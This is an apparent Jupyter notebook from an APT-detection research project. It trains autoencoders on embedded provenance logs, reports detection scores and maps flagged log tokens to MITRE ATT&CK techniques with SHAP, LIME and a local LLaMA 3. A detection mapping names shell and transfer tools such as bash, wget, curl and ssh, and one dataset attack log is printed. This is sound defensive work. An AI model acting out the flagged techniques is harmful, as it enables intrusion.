    -> Beta-VAE Done! F1: 0.0 | PR-AUC: 0.0
    -> GMVAE Done! F1: 0.0 | PR-AUC: 0.0
    -> Attention AE Done! F1: 0.0 | PR-AUC: 0.0
    -> LSTMAE Done! F1: 0.0 | PR-AUC: 0.0


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\

    -> Robust Done! F1: 0.0 | PR-AUC: 0.0
    -> Contractive Done! F1: 0.0 | PR-AUC: 0.0

Evaluating: THEIA - ProcessAll
    -> Baseline Done! F1: 0.785 | PR-AUC: 0.7076
    -> Sparse Done! F1: 0.0238 | PR-AUC: 0.0074
    -> Deep SVDD Done! F1: 0.6277 | PR-AUC: 0.3414
    -> DAE Done! F1: 0.3509 | PR-AUC: 0.206
    -> VAE Done! F1: 0.0207 | PR-AUC: 0.0067
    -> Beta-VAE Done! F1: 0.0218 | PR-AUC: 0.0068
    -> GMVAE Done! F1: 0.0203 | PR-AUC: 0.0064
    -> Attention AE Done! F1: 0.0238 | PR-AUC: 0.0075
    -> LSTMAE Done! F1: 0.7078 | PR-AUC: 0.6788
    -> Robust Done! F1: 0.6939 | PR-AUC: 0.7112
    -> Contractive Done! F1: 0.0242 | PR-AUC: 0.0072

Evaluating: THEIA - ProcessEvent
    -> Baseline Done! F1: 0.719 | PR-AUC: 0.599
    -> Sparse Done! F1: 0.0156 | PR-AUC: 0.0053
    -> Deep SVDD Done! F1: 0.0952 | PR-AUC: 0.0518
    -> DAE Done! F1: 0.3099 | PR-AUC: 0.145
    -> VAE Done! F1: 0.0183 | PR-AUC: 0.0056
    -> Beta-VAE Done! F1: 0.0118 | PR-AUC: 0.0041
    -> GMVAE Done! F1:

#### XAI integration and MITRE ATT&CK mapping

In [8]:
import os
import torch
import numpy as np
import shap
import pandas as pd
from transformers import AutoTokenizer, AutoModel
import torch.nn as nn
import pickle
import requests
from lime.lime_text import LimeTextExplainer

# ==========================================
# 1. SETUP & CONFIGURATION
# ==========================================
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# [GTR-T5 UPDATE] 
EMBEDDER_NAME = "sentence-transformers/gtr-t5-large" 
INPUT_DIM = 1024  # CRITICAL: T5-Large uses 1024-dimensional vectors!

TARGET_PERFORMER = 'theia'       
TARGET_CONTEXT = 'ProcessAll'    
TARGET_AE_MODEL = 'Baseline'      

USE_LLM_MAPPING = True

# ==========================================
# 2. EXTENDED MITRE ATT&CK MAPPING
# ==========================================
MITRE_MAPPING = {
    "/bin/bash": "T1059.004 - Command and Scripting Interpreter: Unix Shell",
    "powershell": "T1059.001 - Command and Scripting Interpreter: PowerShell",
    "cmd.exe": "T1059.003 - Command and Scripting Interpreter: Windows Command Shell",
    "whoami": "T1033 - System Owner/User Discovery",
    "chmod": "T1222.002 - File and Directory Permissions Modification: Linux",
    "/usr/bin/wget": "T1105 - Ingress Tool Transfer",
    "curl": "T1105 - Ingress Tool Transfer",
    "ssh": "T1021.004 - Remote Services: SSH",
    "event fork": "T1055 - Process Injection / Execution",
    "event execve": "T1059 - Command and Scripting Interpreter",
    "event clone": "T1055 - Process Injection / Execution",
    "event ptrace": "T1055 - Process Injection",
    "network 10.": "T1090 - Proxy / Internal Network Communication",
    "network 80": "T1071.001 - Application Layer Protocol: Web Protocols",
    "executable": "T1059 - Command and Scripting Interpreter / Execution",
    "nginx": "T1505.003 - Server Software Component: Web Shell"
}

# ==========================================
# 3. AUTOENCODER DEFINITION
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

# ==========================================
# 4. LOCAL LLaMA 3 OLLAMA API FUNCTION
# ==========================================
def get_mitre_from_llm(raw_log, suspicious_word):
    prompt = f"""You are an expert cybersecurity threat hunter. 
An anomaly detection system flagged this system log as a potential APT attack: '{raw_log}'
A mathematical explainer identified the token '{suspicious_word}' as the primary driver of this anomaly.
Based on this token and the context of the log, identify the single most likely MITRE ATT&CK Tactic and Technique ID. 
Format your response exactly like this: [Technique ID] - [Technique Name]. Do not include any other text."""
    
    try:
        url = "http://localhost:11434/api/generate"
        payload = {"model": "llama3", "prompt": prompt, "stream": False, "temperature": 0.1}
        response = requests.post(url, json=payload, timeout=10)
        if response.status_code == 200:
            return response.json().get("response", "").strip()
        return f"[Error] Local API returned status {response.status_code}"
    except Exception as e:
        return f"[Error] Exception occurred: {str(e)}"

# Load the raw sentences
print("Loading all_data_with_sentences.pkl...")
try:
    with open("all_data_with_sentences.pkl", "rb") as f:
        all_data = pickle.load(f)
    print("✓ Data loaded successfully!")
except FileNotFoundError:
    print("[!] all_data_with_sentences.pkl not found.")

# ==========================================
# 5. THE END-TO-END PIPELINE WRAPPER 
# ==========================================
class APT_Explainer:
    def __init__(self, embedder_name, ae_model, device):
        self.device = device
        print(f"Loading {embedder_name} on {self.device.upper()}...")
        
        self.tokenizer = AutoTokenizer.from_pretrained(embedder_name)
        
        # Load directly to GPU in full precision
        self.embedder = AutoModel.from_pretrained(embedder_name).to(self.device)
        self.embedder.eval()
        
        self.ae_model = ae_model.to(self.device)
        self.ae_model.eval()

    def predict_anomaly_score(self, text_list):
        if isinstance(text_list, np.ndarray):
            text_list = text_list.tolist()
            
        # Clean inputs
        text_list = [str(t) if len(str(t).strip()) > 0 else "[PAD]" for t in text_list]

        # T5-Large is highly efficient. Batch size of 4 is safe.
        batch_size = 4 
        all_errors = []
        
        for i in range(0, len(text_list), batch_size):
            batch_texts = text_list[i:i+batch_size]
            
            inputs = self.tokenizer(
                batch_texts, 
                padding=True, 
                truncation=True, 
                max_length=128, 
                return_tensors="pt"
            ).to(self.device)

            # [THE FIX]: Removed torch.amp.autocast. T5 must run in fp32 to prevent NaNs.
            with torch.inference_mode():
                
                # [T5 ENCODER FIX]: Route directly to the encoder
                if hasattr(self.embedder, 'encoder'):
                    outputs = self.embedder.encoder(**inputs)
                else:
                    outputs = self.embedder(**inputs)
                
                # [GTR-T5 POOLING]: Attention-Weighted Mean Pooling
                token_embeddings = outputs.last_hidden_state
                attention_mask = inputs['attention_mask'].unsqueeze(-1).float()
                
                sum_embeddings = torch.sum(token_embeddings * attention_mask, dim=1)
                sum_mask = torch.clamp(attention_mask.sum(dim=1), min=1e-9)
                embeddings = sum_embeddings / sum_mask
                
                # Normalize embeddings 
                embeddings = torch.nn.functional.normalize(embeddings, p=2, dim=1)
                
                # Cast to match AE weights
                embeddings = embeddings.to(torch.float32)
                
                reconstructed = self.ae_model(embeddings)
                errors = torch.mean((embeddings - reconstructed) ** 2, dim=1)
                
                # Double check to prevent NaNs from sneaking into output
                errors = torch.nan_to_num(errors, nan=0.0)
                
                all_errors.extend(errors.cpu().numpy())
                
        return np.array(all_errors)

# ==========================================
# 6. INITIALIZE MODELS & LOAD WEIGHTS
# ==========================================
print("-" * 60)
print("INITIALIZING FORENSICS PIPELINE (SHAP + LIME + LLaMA 3)")
print("-" * 60)

ae_model = VanillaAE(INPUT_DIM)
weight_filename = f"{TARGET_PERFORMER}_{TARGET_CONTEXT}_{TARGET_AE_MODEL}.pth"
weight_path = os.path.join("saved_weights_gtr_t5_large", weight_filename)

if not os.path.exists(weight_path):
    print(f"[!] CRITICAL ERROR: Could not find weights at {weight_path}")
else:
    state_dict = torch.load(weight_path, map_location='cpu')
    ae_model.load_state_dict(state_dict)
    ae_model = ae_model.to(DEVICE)
    print(f"✓ Loaded weights safely: {weight_path}")

    pipeline = APT_Explainer(EMBEDDER_NAME, ae_model, DEVICE)
    shap_explainer = shap.Explainer(pipeline.predict_anomaly_score, pipeline.tokenizer)
    lime_explainer = LimeTextExplainer(class_names=['Normal', 'Anomaly'])

    def lime_predict_wrapper(text_list):
        errors = pipeline.predict_anomaly_score(text_list)
        probs = 1 / (1 + np.exp(-errors))
        return np.vstack((1 - probs, probs)).T

    # ==========================================
    # 7. EXPLAIN THE ANOMALY
    # ==========================================
    try:
        df = all_data[TARGET_PERFORMER][TARGET_CONTEXT]
        anomalies_df = df[df['label'] == 1]
        
        if anomalies_df.empty:
            print(f"[!] No anomalies found.")
        else:
            raw_apt_log = [anomalies_df['sentence'].iloc[0]]
            print(f"\nAnalyzing True Positive Anomaly:\n>>> '{raw_apt_log[0]}'")
            
            # ==========================================
            # 8. RUN LIME
            # ==========================================
            print("\n" + "="*80)
            print("LIME EXPLAINABILITY & LLaMA 3 MITRE MAPPING")
            print("="*80)
            
            print("Calculating LIME perturbations...")
            for text in raw_apt_log:
                lime_exp = lime_explainer.explain_instance(text, lime_predict_wrapper, num_features=5)
                
                print("Top LIME Anomaly Drivers:")
                for word, weight in lime_exp.as_list():
                    clean_word = word.strip().lower()
                    if len(clean_word) > 1:
                        print(f" -> '{clean_word}' (LIME Weight: {weight:+.4f})")
                        mapped = False
                        if USE_LLM_MAPPING:
                            mitre_technique = get_mitre_from_llm(text, clean_word)
                            if "[Error]" not in mitre_technique:
                                print(f"    [!] LLaMA-3 MITRE MAPPING: {mitre_technique}")
                                mapped = True

                        if not mapped:
                            for key, mitre_technique in MITRE_MAPPING.items():
                                if key in clean_word or clean_word in key:
                                    print(f"    [!] STATIC MAPPING: {mitre_technique}")
                                    mapped = True
                        if not mapped:
                            print("    [i] No MITRE mapping found.")

            # ==========================================
            # 9. RUN SHAP 
            # ==========================================
            print("\nCalculating SHAP values (Optimized speed...)")
            shap_values = shap_explainer(raw_apt_log, max_evals=100)
            
            print("\n" + "="*80)
            print("SHAP EXPLAINABILITY & LLaMA 3 MITRE MAPPING")
            print("="*80)

            for i, text in enumerate(raw_apt_log):
                words = shap_values.data[i]
                impact_scores = shap_values.values[i]
                
                word_impacts = sorted(zip(words, impact_scores), key=lambda x: abs(x[1]), reverse=True)
                
                print("Top SHAP Anomaly Drivers:")
                for word, score in word_impacts[:5]: 
                    clean_word = word.strip().lower()
                    if len(clean_word) > 1:
                        print(f" -> '{clean_word}' (Anomaly Impact: {score:+.4f})")
                        mapped = False
                        if USE_LLM_MAPPING:
                            mitre_technique = get_mitre_from_llm(raw_apt_log[0], clean_word)
                            if "[Error]" not in mitre_technique:
                                print(f"    [!] LLaMA-3 MITRE MAPPING: {mitre_technique}")
                                mapped = True

                        if not mapped:
                            for key, mitre_technique in MITRE_MAPPING.items():
                                if key in clean_word or clean_word in key:
                                    print(f"    [!] STATIC MAPPING: {mitre_technique}")
                                    mapped = True
                        if not mapped:
                            print("    [i] No MITRE mapping found.")

    except NameError:
        print("[!] The 'all_data' variable is not loaded.")

Loading all_data_with_sentences.pkl...
✓ Data loaded successfully!
------------------------------------------------------------
INITIALIZING FORENSICS PIPELINE (SHAP + LIME + LLaMA 3)
------------------------------------------------------------
✓ Loaded weights safely: saved_weights_gtr_t5_large\theia_ProcessAll_Baseline.pth
Loading sentence-transformers/gtr-t5-large on CUDA...


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\huggingface_hub\file_download.py:949: FutureWarning: `resume_download` is deprecated and will be removed in version 1.0.0. Downloads always resume when possible. If you want to force a new download, use `force_download=True`.
  warnings.warn(
Some weights of T5Model were not initialized from the model checkpoint at sentence-transformers/gtr-t5-large and are newly initialized: ['decoder.block.0.layer.0.SelfAttention.k.weight', 'decoder.block.0.layer.0.SelfAttention.o.weight', 'decoder.block.0.layer.0.SelfAttention.q.weight', 'decoder.block.0.layer.0.SelfAttention.relative_attention_bias.weight', 'decoder.block.0.layer.0.SelfAttention.v.weight', 'decoder.block.0.layer.0.layer_norm.weight', 'decoder.block.0.layer.1.EncDecAttention.k.weight', 'decoder.block.0.layer.1.EncDecAttention.o.weight', 'decoder.block.0.layer.1.EncDecAttention.q.weight', 'decoder.block.0.layer.1.EncDecAttention.v.weight', 'decoder.


Analyzing True Positive Anomaly:
>>> 'Process has event clone and event mmap and event mprotect and event open and event read and event recvfrom and executable /home/admin/profile and executable /home/admin/clean.1 and executable N/A.1 and network 161.116.88.72 and network 80'

LIME EXPLAINABILITY & LLaMA 3 MITRE MAPPING
Calculating LIME perturbations...
Top LIME Anomaly Drivers:
 -> 'process' (LIME Weight: -0.0001)
    [i] No MITRE mapping found.
 -> 'event' (LIME Weight: -0.0000)
    [!] STATIC MAPPING: T1055 - Process Injection / Execution
    [!] STATIC MAPPING: T1059 - Command and Scripting Interpreter
    [!] STATIC MAPPING: T1055 - Process Injection / Execution
    [!] STATIC MAPPING: T1055 - Process Injection
 -> 'executable' (LIME Weight: -0.0000)
    [!] STATIC MAPPING: T1059 - Command and Scripting Interpreter / Execution
 -> 'clone' (LIME Weight: -0.0000)
    [!] STATIC MAPPING: T1055 - Process Injection / Execution
 -> 'mmap' (LIME Weight: -0.0000)
    [i] No MITRE mappin

## Group D: Angle-Optimized / Static Embedding models

### 1. `WhereIsAI/UAE-Large-V1` - Angle optimized

#### Embedding generation

In [1]:
import pandas as pd
import numpy as np
import torch
import torch.nn.functional as F
import pickle
import os
from transformers import AutoTokenizer, AutoModel

# ==========================================
# 1. CONFIGURATION
# ==========================================
INPUT_FILE = 'all_data_with_sentences.pkl'
MODEL_NAME = 'WhereIsAI/UAE-Large-V1'

# UAE-Large is a BERT-Large model (~335M params).
# It fits easily on 11GB VRAM.
BATCH_SIZE = 32

# ==========================================
# 2. LOAD RESOURCES
# ==========================================
device = 'cuda' if torch.cuda.is_available() else 'cpu'
print(f"Using device: {device.upper()}")

print(f"Loading model: {MODEL_NAME}...")

# Load Tokenizer & Model
tokenizer = AutoTokenizer.from_pretrained(MODEL_NAME)
model = AutoModel.from_pretrained(
    MODEL_NAME, 
    torch_dtype=torch.float16,
    device_map=device
)
model.eval()

if os.path.exists(INPUT_FILE):
    print(f"Loading data from {INPUT_FILE}...")
    with open(INPUT_FILE, 'rb') as f:
        all_data = pickle.load(f)
else:
    raise FileNotFoundError(f"Missing {INPUT_FILE}. Run the sentence generation step first.")

# ==========================================
# 3. HELPER: CLS POOLING (Standard for UAE)
# ==========================================
def get_uae_embeddings(text_list, model, tokenizer, batch_size=32):
    all_embeddings = []
    total = len(text_list)
    
    for i in range(0, total, batch_size):
        batch_texts = text_list[i : i + batch_size]
        
        # Tokenize
        # BERT-Large standard max length is 512.
        batch_dict = tokenizer(
            batch_texts, 
            max_length=512, 
            padding=True, 
            truncation=True, 
            return_tensors='pt'
        )
        
        # Move inputs to GPU
        batch_dict = {k: v.to(device) for k, v in batch_dict.items()}
        
        with torch.no_grad():
            outputs = model(**batch_dict)
            
            # [CRITICAL] CLS Pooling for UAE
            # (Similar to BGE, the [CLS] token holds the "Angle" optimized vector)
            embeddings = outputs.last_hidden_state[:, 0]
            
            # Normalize (Critical for Cosine Similarity/Angle Optimization)
            embeddings = F.normalize(embeddings, p=2, dim=1)
            
            all_embeddings.extend(embeddings.cpu().numpy())
            
        print(f"    Processed {min(i + batch_size, total)}/{total}...", end="\r")
            
    print("") 
    return all_embeddings

# ==========================================
# 4. GENERATE EMBEDDINGS
# ==========================================
print("\n" + "="*80)
print(f"GENERATING EMBEDDINGS ({MODEL_NAME})")
print("="*80)

for performer in all_data:
    print(f"\n--- Processing Performer: {performer.upper()} ---")
    
    for context in all_data[performer]:
        df = all_data[performer][context]
        
        if 'sentence' not in df.columns:
            print(f"  [!] Skipping {context} (No sentences found)")
            continue
            
        print(f"  -> {context} ({len(df)} rows)...")
        
        try:
            sentences = df['sentence'].tolist()
            
            # Generate
            embeddings = get_uae_embeddings(sentences, model, tokenizer, BATCH_SIZE)
            
            if len(embeddings) != len(df):
                print(f"  [!] Mismatch: {len(embeddings)} vs {len(df)}")
                continue

            df['embedding'] = list(embeddings)
            all_data[performer][context] = df
            print(f"     ✓ Done.")
            
        except Exception as e:
            print(f"\n  [!] Error processing {context}: {e}")
            torch.cuda.empty_cache()

# ==========================================
# 5. SAVE DATA (CHUNKED)
# ==========================================
SAVE_DIR = "processed_embeddings_uae_large_v1"
os.makedirs(SAVE_DIR, exist_ok=True)

print(f"\nAttempting to save UAE-Large chunks to: {os.path.abspath(SAVE_DIR)}")

if 'all_data' in locals() and all_data:
    for performer in all_data:
        for context in all_data[performer]:
            try:
                df = all_data[performer][context]
                filename = f"{performer}_{context}_uae_large_v1.pkl"
                filepath = os.path.join(SAVE_DIR, filename)
                
                print(f"Saving {filename}...", end=" ")
                with open(filepath, 'wb') as f:
                    pickle.dump(df, f)
                print("Success.")
                
            except Exception as e:
                print(f"Failed to save {filename}: {e}")
    
    print(f"\n✓ All UAE-Large data saved to '{SAVE_DIR}'")
    
else:
    print("CRITICAL: The 'all_data' variable is gone from memory.")

c:\Users\Waleed\AppData\Local\Programs\Python\Python312\Lib\site-packages\tqdm\auto.py:21: TqdmWarning: IProgress not found. Please update jupyter and ipywidgets. See https://ipywidgets.readthedocs.io/en/stable/user_install.html
  from .autonotebook import tqdm as notebook_tqdm


Using device: CUDA
Loading model: WhereIsAI/UAE-Large-V1...


`torch_dtype` is deprecated! Use `dtype` instead!
c:\Users\Waleed\AppData\Local\Programs\Python\Python312\Lib\site-packages\keras\src\export\tf2onnx_lib.py:8: FutureWarning: In the future `np.object` will be defined as the corresponding NumPy scalar.
  if not hasattr(np, "object"):


Loading data from all_data_with_sentences.pkl...

GENERATING EMBEDDINGS (WhereIsAI/UAE-Large-V1)

--- Processing Performer: 5DIR ---
  -> ProcessEvent (11151 rows)...


c:\Users\Waleed\AppData\Local\Programs\Python\Python312\Lib\site-packages\transformers\models\bert\modeling_bert.py:413: UserWarning: 1Torch was not compiled with flash attention. (Triggered internally at C:\actions-runner\_work\pytorch\pytorch\builder\windows\pytorch\aten\src\ATen\native\transformers\cuda\sdp_utils.cpp:555.)
  attn_output = torch.nn.functional.scaled_dot_product_attention(


    Processed 11151/11151...
     ✓ Done.
  -> ProcessExec (11077 rows)...
    Processed 11077/11077...
     ✓ Done.
  -> ProcessParent (10992 rows)...
    Processed 10992/10992...
     ✓ Done.
  -> ProcessNetflow (329 rows)...
    Processed 329/329...
     ✓ Done.
  -> ProcessAll (11151 rows)...
    Processed 11151/11151...
     ✓ Done.

--- Processing Performer: CADETS ---
  -> ProcessEvent (224624 rows)...
    Processed 224624/224624...
     ✓ Done.
  -> ProcessExec (224146 rows)...
    Processed 224146/224146...
     ✓ Done.
  -> ProcessParent (223780 rows)...
    Processed 223780/223780...
     ✓ Done.
  -> ProcessNetflow (42888 rows)...
    Processed 42888/42888...
     ✓ Done.
  -> ProcessAll (224624 rows)...
    Processed 224624/224624...
     ✓ Done.

--- Processing Performer: CLEARSCOPE ---
  -> ProcessEvent (12106 rows)...
    Processed 12106/12106...
     ✓ Done.
  -> ProcessExec (12106 rows)...
    Processed 12106/12106...
     ✓ Done.
  -> ProcessParent (24 rows)...
    P

#### Train test Split

In [6]:
import os
import pickle
import numpy as np

# ==========================================
# 1. CONFIGURATION
# ==========================================
# The folder where your UAE-Large-V1 generated embeddings are stored
SOURCE_FOLDER = "processed_embeddings_uae_large_v1" 
# The folder where you want the final train/test splits saved
BASE_DIR = "final_train_test_split_uae_large_v1"     
RANDOM_SEED = 42

def process_and_save(filepath):
    filename = os.path.basename(filepath)
    print(f"\nProcessing: {filename}...")
    
    # --- 1. Load the Pickle File ---
    with open(filepath, 'rb') as f:
        df = pickle.load(f)
    
    # --- 2. Extract Embeddings (X) and Labels (y) ---
    X = np.vstack(df['embedding'].values)
    y = df['label'].values
    
    # --- 3. Separate Benign (0) and Anomalous (1) ---
    benign_mask = (y == 0)
    anom_mask = (y == 1)
    
    X_benign = X[benign_mask]
    X_anom = X[anom_mask]
    
    print(f"  -> Raw Counts: {len(X_benign)} Benign, {len(X_anom)} Anomalous")
    
    # --- 4. Shuffle Benign Data ---
    np.random.seed(RANDOM_SEED)
    np.random.shuffle(X_benign)
    
    # --- 5. Perform the 80/20 Split ---
    split_point = int(len(X_benign) * 0.8)
    
    # TRAIN SET: First 80% of Benign samples ONLY
    X_train = X_benign[:split_point]
    y_train = np.zeros(len(X_train))
    
    # TEST SET: Remaining 20% Benign + ALL Anomalous samples
    X_test_benign = X_benign[split_point:]
    X_test = np.concatenate([X_test_benign, X_anom])
    y_test = np.concatenate([np.zeros(len(X_test_benign)), np.ones(len(X_anom))])
    
    print(f"  -> Split Complete. Train: {X_train.shape}, Test: {X_test.shape}")
    
    # --- 6. Organize and Save ---
    # Clean up the key name by removing UAE-Large suffixes
    key_name = filename.replace(".pkl", "").replace("_uae_large_v1", "") 
    
    # Try to split by underscore to get performer and context
    parts = key_name.split('_', 1) 
    if len(parts) == 2:
        performer = parts[0]
        context = parts[1]
    else:
        # Fallback if the filename doesn't have an underscore
        performer = "unknown_performer"
        context = key_name

    train_dir = os.path.join(BASE_DIR, performer, "train")
    test_dir = os.path.join(BASE_DIR, performer, "test")
    
    os.makedirs(train_dir, exist_ok=True)
    os.makedirs(test_dir, exist_ok=True)
    
    # Save TRAIN
    train_file = os.path.join(train_dir, f"{context}.pkl")
    with open(train_file, 'wb') as f:
        pickle.dump({'X': X_train, 'y': y_train}, f)
        
    # Save TEST
    test_file = os.path.join(test_dir, f"{context}.pkl")
    with open(test_file, 'wb') as f:
        pickle.dump({'X': X_test, 'y': y_test}, f)
        
    print(f"  ✓ Saved to: {train_file} and {test_file}")


# ==========================================
# 2. EXECUTION LOOP
# ==========================================
print(f"Saving organized datasets to: {os.path.abspath(BASE_DIR)}")
print("-" * 80)

if not os.path.exists(SOURCE_FOLDER):
    print(f"[!] Error: The input folder '{SOURCE_FOLDER}' does not exist.")
else:
    files = [f for f in os.listdir(SOURCE_FOLDER) if f.endswith(".pkl")]
    
    if not files:
        print(f"[!] No .pkl files found inside {SOURCE_FOLDER}")
    else:
        print(f"Found {len(files)} datasets. Starting load, split, and save process...\n")
        
        for file in files:
            full_path = os.path.join(SOURCE_FOLDER, file)
            try:
                process_and_save(full_path)
            except MemoryError:
                print(f"  [CRITICAL] MemoryError while processing {file}. RAM is full.")
            except Exception as e:
                print(f"  [!] Unexpected error on {file}: {e}")

print("\n" + "="*80)
print("ORGANIZED SAVE COMPLETE FOR UAE-LARGE-V1!")
print("="*80)

Saving organized datasets to: d:\Waleed FYP\final_train_test_split_uae_large_v1
--------------------------------------------------------------------------------
Found 25 datasets. Starting load, split, and save process...


Processing: 5dir_ProcessAll_uae_large_v1.pkl...
  -> Raw Counts: 11142 Benign, 9 Anomalous
  -> Split Complete. Train: (8913, 1024), Test: (2238, 1024)
  ✓ Saved to: final_train_test_split_uae_large_v1\5dir\train\ProcessAll.pkl and final_train_test_split_uae_large_v1\5dir\test\ProcessAll.pkl

Processing: 5dir_ProcessEvent_uae_large_v1.pkl...
  -> Raw Counts: 11142 Benign, 9 Anomalous
  -> Split Complete. Train: (8913, 1024), Test: (2238, 1024)
  ✓ Saved to: final_train_test_split_uae_large_v1\5dir\train\ProcessEvent.pkl and final_train_test_split_uae_large_v1\5dir\test\ProcessEvent.pkl

Processing: 5dir_ProcessExec_uae_large_v1.pkl...
  -> Raw Counts: 11068 Benign, 9 Anomalous
  -> Split Complete. Train: (8854, 1024), Test: (2223, 1024)
  ✓ Saved to: final_train_tes

#### Training and saving `.pth` files

In [13]:
import os
import pickle
import time
import numpy as np
import pandas as pd
import torch
import torch.nn as nn
import torch.optim as optim
from torch.utils.data import DataLoader, TensorDataset
from sklearn.metrics import roc_auc_score, ndcg_score, dcg_score

# ==========================================
# 1. CONFIGURATION
# ==========================================
# Updated directories for UAE-Large-V1
BASE_DIR = "final_train_test_split_uae_large_v1"
RESULTS_FILE = "results_all_autoencoders_uae_large_v1.csv"
MODEL_SAVE_DIR = "saved_weights_uae_large_v1"
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# Hyperparameters
BATCH_SIZE = 128    
EPOCHS = 15         
LR = 0.001          
# [CRITICAL] WhereIsAI/UAE-Large-V1 uses 1024 dimensions
INPUT_DIM = 1024    

# Specialty Hyperparameters
NOISE_FACTOR = 0.2  # Denoising AE
SPARSE_REG = 1e-4   # Sparse AE L1 penalty
BETA = 4.0          # Beta-VAE weight
CAE_LAMBDA = 1e-4   # Contractive AE Jacobian penalty

os.makedirs(MODEL_SAVE_DIR, exist_ok=True)
print(f"Running on Device: {DEVICE.upper()}")
print("-" * 60)

# ==========================================
# 2. MODEL ARCHITECTURES
# ==========================================

# --- 1, 3, 4, 10, 11. Vanilla AE (Used for Baseline, DAE, Sparse, Robust, Contractive) ---
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

# --- 2. Deep SVDD (Encoder mapping to hypersphere center) ---
class DeepSVDDNet(nn.Module):
    def __init__(self, input_dim):
        super(DeepSVDDNet, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 128) # Small latent space
        )
    def forward(self, x):
        return self.encoder(x)

# --- 5, 6. Variational AE (Used for VAE and Beta-VAE) ---
class VAE(nn.Module):
    def __init__(self, input_dim):
        super(VAE, self).__init__()
        self.fc1 = nn.Linear(input_dim, 1024)
        self.fc2_mu = nn.Linear(1024, 256)
        self.fc2_logvar = nn.Linear(1024, 256)
        self.fc3 = nn.Linear(256, 1024)
        self.fc4 = nn.Linear(1024, input_dim)

    def encode(self, x):
        h1 = torch.relu(self.fc1(x))
        return self.fc2_mu(h1), self.fc2_logvar(h1)

    def reparameterize(self, mu, logvar):
        std = torch.exp(0.5 * logvar)
        eps = torch.randn_like(std)
        return mu + eps * std

    def forward(self, x):
        mu, logvar = self.encode(x)
        z = self.reparameterize(mu, logvar)
        h3 = torch.relu(self.fc3(z))
        return self.fc4(h3), mu, logvar

# --- 7. GMVAE (Simplified Gaussian Mixture VAE) ---
class GMVAE(nn.Module):
    def __init__(self, input_dim, n_components=5):
        super(GMVAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU())
        self.mu = nn.Linear(1024, 256)
        self.logvar = nn.Linear(1024, 256)
        self.pi = nn.Linear(1024, n_components) # Categorical prior
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
        
    def forward(self, x):
        h = self.encoder(x)
        mu, logvar, pi = self.mu(h), self.logvar(h), torch.softmax(self.pi(h), dim=-1)
        std = torch.exp(0.5 * logvar)
        z = mu + torch.randn_like(std) * std
        return self.decoder(z), mu, logvar, pi

# --- 8. Attention AE ---
class AttentionAE(nn.Module):
    def __init__(self, input_dim):
        super(AttentionAE, self).__init__()
        self.attn = nn.MultiheadAttention(embed_dim=input_dim, num_heads=8, batch_first=True)
        self.encoder = nn.Sequential(nn.Linear(input_dim, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, input_dim))
        
    def forward(self, x):
        # Self-attention requires 3D shape: (batch, seq, feature)
        x_seq = x.unsqueeze(1) 
        attn_out, _ = self.attn(x_seq, x_seq, x_seq)
        attn_out = attn_out.squeeze(1)
        return self.decoder(self.encoder(attn_out))

# --- 9. LSTM AE ---
class LSTMAE(nn.Module):
    def __init__(self, input_dim):
        super(LSTMAE, self).__init__()
        self.encoder = nn.LSTM(input_dim, 256, batch_first=True)
        self.decoder = nn.LSTM(256, input_dim, batch_first=True)
        
    def forward(self, x):
        # Fake sequence length of 1
        x_seq = x.unsqueeze(1)
        _, (hidden, _) = self.encoder(x_seq)
        # Repeat hidden state for decoder (seq_len = 1)
        hidden_rep = hidden[-1].unsqueeze(1)
        out, _ = self.decoder(hidden_rep)
        return out.squeeze(1)


# ==========================================
# 3. GENERIC TRAINING FUNCTION
# ==========================================
def train_model(model_name, X_train, X_test, y_test, performer, context):
    
    # Initialize appropriate model
    if model_name in ['Baseline', 'Sparse', 'DAE', 'Robust', 'Contractive']:
        model = VanillaAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Deep SVDD':
        model = DeepSVDDNet(INPUT_DIM).to(DEVICE)
        center = torch.zeros(128, device=DEVICE) 
    elif model_name in ['VAE', 'Beta-VAE']:
        model = VAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'GMVAE':
        model = GMVAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Attention AE':
        model = AttentionAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'LSTMAE':
        model = LSTMAE(INPUT_DIM).to(DEVICE)

    optimizer = optim.Adam(model.parameters(), lr=LR)
